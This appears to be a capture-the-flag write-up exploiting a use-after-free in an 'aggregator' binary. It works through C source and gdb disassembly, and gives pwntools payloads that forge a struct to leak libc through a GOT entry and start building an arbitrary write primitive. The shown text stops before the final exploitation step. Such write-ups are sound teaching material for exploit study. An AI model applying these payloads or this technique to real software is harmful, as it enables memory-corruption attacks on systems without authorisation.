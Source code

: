 UAF on aggregator

Create an item on the heap
Then free that item (memory is freed)
Then create a new item on heap that isn't freed, by doing an invalid command
Then trigger a Use After Free on that overwritten memory by doing an append


```C
    while (ch != NULL) {
        if (ch->size > 0) {
            agg = ch->data[0];
            i = 1;
            break;
        }
        ch = ch->next;
    }
```

with the asm:
```asm
     0x400f87 <db_aggregate_month+101>    mov    rax, qword ptr [rax]
     0x400f8a <db_aggregate_month+104>    mov    qword ptr [rbp - 8], rax
     0x400f8e <db_aggregate_month+108>    mov    qword ptr [rbp - 0x10], 1
     0x400f96 <db_aggregate_month+116>    jmp    0x400fab                      <0x400fab>
     0x400f96 <db_aggregate_month+116>    jmp    0x400fab                      <0x400fab>
     0x400fab <db_aggregate_month+137>    jmp    0x400fff                      <0x400fff>
     0x400fff <db_aggregate_month+221>    cmp    qword ptr [rbp - 0x18], 0
```
where `[rbp - 0x18]` is the heap memory location of the invalid command we entered.

Keep stepping through:
```asm
     0x400fdd <db_aggregate_month+187>    mov    rax, qword ptr [rbp - 0x18]
     0x400fe1 <db_aggregate_month+191>    mov    rax, qword ptr [rax + 0x18]
     0x400fe5 <db_aggregate_month+195>    cmp    rax, qword ptr [rbp - 0x10]
     0x400fe9 <db_aggregate_month+199>    ja     db_aggregate_month+141        <0x400faf>
```
Here the pointer value to our invalid command is loaded into rax, and the offset by 0x18 to load back into RAX
If this value at that location is above 1, then jump.

So the C code is expecting this struct at this location:
```C
struct data_table_chain {
    data_t *data;
    day_t day;
    size_t capacity;
    size_t size;
    dbchain *next;
};
```

This is great, because it'll give us an arbitrary read primitive!

Modify our payload to try that:
```python
  payload  = ''
  payload += p64(0x601f58) # GOT address of setvbuf
  payload += p64(0x000000) 
  payload += p64(0x0000FF) # ch->capacity
  payload += p64(0x000001) # ch->size
  payload += p64(0x000000) # ch->next... just null is fine...
    
  r.sendline(payload)
```
So we set the data pointer we want to read to an address in the GOT that points to libc.
Then we read back the "aggregated" value. Which is just the address as an integer.

```python
  r.recvline()
  leak = r.recvline(keepends=False)
  libc.base = int(leak) - libc.symbols['setvbuf']
  print "Libc base = %x" %(libc.base)
```
Score... We're making progress.

Now how do we find an arbitrary write primitive...
Lets see about doing the same trick with an update to an existing item?
Start simple and see if we can get a crash
```python
  #Add date with easily findable item number 
  add_date_mdy(r, date, 0x4141414142424242)
  remove_date_mdy(r, date)

  #Overwrite the area that is now freed, with an invalid command
  payload  = ''
  payload += p64(0x601f58) # GOT address of ...
  payload += p64(0xAAAAAA)
  payload += p64(0xBBBBBB)
  payload += p64(0xCCCCCC) 
  payload += p64(0xDDDDDD) 
  r.sendline(payload)

  add_date_mdy(r, date, 0x4141414142424242)
```
Great. This gets a segfault at `chain_get+47`. it uses the 0xDDDDDD+0x8 as a pointer. This makes sense, we saw that was the next pointer. So lets zero that one.
Lets also set that location as a breakpoint:
```python
  if args.dbg:
    gdb.attach(r, """
    vmmap
    b *chain_get+47
    """)
```

Now we look to see what's happening around the db_add() calling chain_get()
```C
void db_add(db_t D, struct tm* when, data_t data_value) {
    ymon_t ymon = make_ymon(when->tm_year, when->tm_mon);
    day_t day = when->tm_mday;
    dbchain *ch = chain_get(D, ymon, day);
    if (ch == NULL) {
        ch = chain_add(D, ymon, day);
    }
    chain_append(ch, data_value);
}
```
`chain_add()` is a complicated function with lots of stuff in it. `chain_append()` seems more manageable

```C
void chain_append(dbchain *ch, data_t data_value) {
    if (ch->size == ch->capacity) {
        ch->capacity = ch->capacity * 2;
        ch->data = xrealloc(ch->data, ch->capacity * sizeof(data_t));
    }
    ch->data[ch->size] = data_value;
    ch->size++;
}
```

Nice... So we just need a valid pointer for chain_get() to return a pointer to our structure. mmmm
```C
dbchain *chain_get(db_t D, ymon_t y, day_t day) {
    dbchain *ch = chain_head(D, y);
    while (ch != NULL) {
        if (ch->day == day) {
            return ch;
        }
        ch = ch->next;
    }
    return NULL;
}
```
We should get one if we overwrote the head entry. So that should be sorted out then.
Since we saw that `ch->data[ch->size] = data_value;` we need to make sure to subtract the location we want to write to with 8.










